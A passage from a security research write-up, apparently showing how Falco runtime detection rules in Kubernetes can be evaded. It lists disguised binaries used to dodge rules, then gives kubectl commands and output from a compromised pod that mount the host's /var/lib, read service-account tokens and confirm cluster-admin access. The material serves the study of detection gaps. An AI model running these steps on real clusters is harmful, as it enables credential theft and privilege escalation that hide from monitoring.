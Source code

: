 To summarize, we have performed the following evasion:
* in fuber:latest - /tmp/gbash is a symlink to bash to bypass **Terminal shell in container**
* in fuber:latest - docker binary disguised as a /tmp/gdocker to bypass **The docker client is executed in a container** (this is actually not needed as we use node's docker after the pid namespace mounting)
* in fuber:latest - nsenter disguised as a runc-nsenter to bypass **Change thread namespace** (update: this rule was actually disabled by default later in https://github.com/falcosecurity/falco/pull/1632)
* map _/var/run_ and not _/var/run/docker.sock_ to bypass **Launch Sensitive Mount Container** rule

Can we go further following Scenario 2 and set up the backdoor through NodePort? The next step would be to get secret token for kube-system namespace, for this we need access to the node's _/var/lib_ path:

```
[Compromised Pod]
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ ./kctl run r00t3 --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"args":["-c","ls -la /var/lib/kubelet/pods"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/lib","name": "test"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test","hostPath":{"path": "/var/lib"}}]}}'
total 88
drwxr-x--- 22 root root 4096 Oct 17 12:41 .
drwxr-xr-x  8 root root 4096 Oct 17 09:37 ..
drwxr-x---  5 root root 4096 Oct 17 10:11 1124fa37-747a-4fc5-af24-dd2ccc64ce89
drwxr-x---  5 root root 4096 Oct 17 09:40 12a640d3-6f7b-45b5-92a5-537772e2774a
...
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ ./kctl run r00t3 --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"args":["-c","cat /var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/*/namespace"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/lib","name": "test"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test","hostPath":{"path": "/var/lib"}}]}}'
prdkube-systemdevprdkube-systemkube-systemkube-systemdevkube-systemprddevkube-systemkube-systemprdkube-systemprddefaultpod "r00t3" deleted
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ ./kctl run r00t3 --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"sshayb/fuber:latest","command":["/tmp/gbash"],"args":["-c","cat /var/lib/kubelet/pods/12a640d3-6f7b-45b5-92a5-537772e2774a/volumes/kubernetes.io~secret/default-token-hnhmm/token"],"stdin": true,"tty":true,"volumeMounts": [{"mountPath": "/var/lib","name": "test"}],"imagePullPolicy":"IfNotPresent"}],"volumes": [{"name":"test","hostPath":{"path": "/var/lib"}}]}}'
eyJhbGciO...uMP08h9jzgpod "r00t3" deleted
dashboard@dashboard-56755cd6c9-6dk6v:/tmp$ ./kctl --token "eyJhb...8h9jzg" auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs   Resource Names   Verbs
*.*                                             []                  []     [*]
                                                [*]                 []     [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []     [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []     [create]
                                                [/api/*]            []     [get]
                                                [/api]              []     [get]
                                                [/apis/*]           []     [get]
                                                [/apis]             []     [get]
                                                [/healthz]          []     [get]
                                                [/healthz]          []     [get]
                                                [/livez]            []     [get]
                                                [/livez]            []     [get]
                                                [/openapi/*]        []     [get]
                                                [/openapi]          []     [get]
                                                [/readyz]           []     [get]
                                                [/readyz]           []     [get]
                                                [/version/]         []     [get]
                                                [/version/]         []     [get]
                                                [/version]          []     [get]
                                                [/version]          []     [get]
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
